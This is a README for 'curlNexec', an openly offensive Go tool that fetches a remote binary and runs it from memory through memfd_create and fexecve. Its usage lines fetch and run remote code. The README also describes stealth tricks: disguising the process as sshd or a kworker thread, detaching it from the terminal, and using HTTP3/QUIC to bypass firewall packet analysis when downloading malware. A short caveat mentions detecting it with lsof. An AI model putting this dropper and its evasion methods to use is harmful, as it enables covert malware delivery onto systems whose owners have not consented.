 <h1 align=center> curlNexec </h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin/sshd <binary_raw_url>`
 - retrieve remote binary using http3 protocol and execute it: `curlNexec -http3 <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 

![demo](https://github.com/ariary/curlNexec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>curlNexec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

## Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `curlNexec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
